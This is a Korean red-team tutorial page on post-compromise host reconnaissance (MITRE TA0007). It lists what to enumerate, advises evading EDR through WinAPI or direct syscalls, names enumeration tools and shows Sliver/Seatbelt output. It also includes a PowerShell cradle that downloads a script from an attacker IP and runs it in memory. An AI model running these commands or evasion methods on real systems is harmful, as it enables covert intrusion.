 ```yaml
---
description: MITRE ATTACK - TA0007 (T1082, T1016, ...)
---
```


# 호스트/로컬 정보 수집

초기 침투 이후 호스트에 접근 했다면 가장 먼저 해야할 일은 호스트/로컬 정보 수집이다. 이 호스트가 어떤 호스트인지, 생성된 프로세스가 어떤 유저의 컨텍스트(context)를 갖고 있는지, 어떤 AV/EDR 솔루션이 있는지 등을 파악하는 것이다. 이 단계를 잘 거쳐야만 레드팀으로서는 탐지 당하지 않고 안전하게 필요한 공격들을 수행할 수 있게 된다. 또한, 로컬 정보 수집으로 얻어진 정보들은 로컬 권한 상승 공격에 사용되기도 한다.&#x20;

이 페이지에서는 다음과 같은 정보들에 대해 알아본다&#x20;

1. 로컬 정보 수집을 실행할 때 알아봐야할 정보
2. 작전 보안을 위해 조심해야할 점
3. 로컬 정보 수집 툴&#x20;

### 로컬 정보 수집 - 정보

#### 기본 정보 &#x20;

* 호스트 이름&#x20;
* 도메인 이름
* 운영체제 이름 및 버전&#x20;
* 윈도우 핫픽스, 보안 패치 리스트&#x20;
* Network Interface Cards (NICs) - Dual-Homed 체크&#x20;
* IP, subnet mask, gateway&#x20;
* ARP table&#x20;

#### 유저 정보&#x20;

* 유저 이름&#x20;
* 유저 권한
* 로컬 유저 그룹&#x20;

#### 프로세스 정보&#x20;

* 프로세스 리스트 확인&#x20;
* 현 프로세스의 32비트, 64비트 확인 (`IsWow64Process(), GetSystemInfo()`)

#### 보안 기술 확인&#x20;

* AV, EDR, Defender, AMSI, sysmon, logging frameworks&#x20;
* CredGuard&#x20;
* .NET Framework 버전 (4.8+ 이라면 .NET AMSI 확인)
* LAPS 적용 확인&#x20;
* 파워쉘 v2
* Applocker&#x20;



### 작전 보안&#x20;

타겟 호스트에 쉘을 얻자마자 `whoami, ipconfig` 등의 윈도우 기본 PE 바이너리(whoami는 명령어가 아니다)를 이용해 로컬 정보 수집을 한다면 그 즉시 EDR 솔루션에게 발각되어 프로세스가 종료될 것이다. 기본 명령어 및 기본 프로세스를 이용해 로컬 정보 수집을 하던 시대는 2000년대 이후로 끝났다.&#x20;

작전보안을 지키며 로컬 정보를 수집하고 싶다면 제3자 프로그래밍 언어 (로 만들어진 툴) 을 이용해 WinAPI혹은 direct 시스템 콜을 이용해 메모리상에서 윈도우 커널과 소통해야한다. 물론 이는 쉬운 일이 아니고, 실제 작전이 실행되고 있을 때 일일히 WinAPI 혹은 direct syscall을 코딩해 사용할 수는 없는 노릇이다.&#x20;

이 문제점을 해결하기 위해 레드팀들은 로컬 정보 수집을 위한 툴을 만들기 시작했다. &#x20;



### 실습과 툴&#x20;

2022년대 기준 로컬 정보 수집은 비컨 프로세스의 메모리상에서 winapi/direct syscall 툴을 실행하거나, 다른 프로세스에 인젝션을 통해 진행한다.&#x20;

유명한 로컬 정보 수집 툴들은 다음과 같다:&#x20;

* [Seatbelt](https://github.com/GhostPack/Seatbelt)&#x20;
* [Situational-Awareness BOF ](https://github.com/trustedsec/CS-Situational-Awareness-BOF)
* [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
* [PrivescCheck](https://github.com/itm4n/PrivescCheck)

{% tabs %}
{% tab title="비컨 - 레드팀" %}
sliver 비컨에서 Seatbelt 라는 로컬 정보 수집 툴을 이용한다.&#x20;

```
sliver (LOST_QUICKSAND) > seatbelt '' "-group=system"

< ... > 

====== WindowsAutoLogon ======                                                                                        
                                                                                                                      
  DefaultDomainName              : CHOI                                                                               
  DefaultUserName                : Administrator                                                                      
  DefaultPassword                :                                                                                    
  AltDefaultDomainName           :                                                                                    
  AltDefaultUserName             :                                                                                    
  AltDefaultPassword             :                                                                                    
                                                           
====== WindowsDefender ======         
                                                           
Locally-defined Settings:                                  
                                                           
                                                           
                                                                                                                      
GPO-defined Settings:                                      
====== WindowsEventForwarding ======  
                                                           
====== WindowsFirewall ======                              
                                                           
Collecting Windows Firewall Non-standard Rules
                                                                                                                      
                                                                                                                      
Location                     : SOFTWARE\Policies\Microsoft\WindowsFirewall

< ... >
```
{% endtab %}

{% tab title="윈도우 - 모의해킹" %}
모의해킹 실행시 타겟에 횡적이동을 한 뒤 파워쉘을 이용해 로컬 정보 수집을 진행한다. 파워쉘 스크립트를 모의해커의 호스트에서 불러온 뒤, 메모리상에서 실행시킨다. 툴은 PrivEscCheck.ps1을 사용한다.&#x20;

```
# 공격자 호스트에서 불러온 뒤 실행 
iex(new-object net.webclient).downloadstring('http://<공격자IP>:<포트>/PrivescCheck.ps1');Invoke-PrivEscCheck

< ... >
+-----------------------------------------------------------------------------+
|                         ~~~ PrivescCheck Report ~~~                         |
+----+------+-----------------------------------------------------------------+
| NA | None | CONFIG > SCCM Cache Folder (info)                               |
| OK | None | CONFIG > Hardened UNC Paths                                     |
| OK | None | CONFIG > Point and Print                                        |
| OK | None | CONFIG > WSUS Configuration                                     |
| NA | None | CONFIG > Driver Co-Installers -> 1 result(s)                    |
| NA | None | CREDS > Vault List                                              |
| OK | None | CREDS > GPP Passwords                                           |
< ... > 
```
{% endtab %}
{% endtabs %}



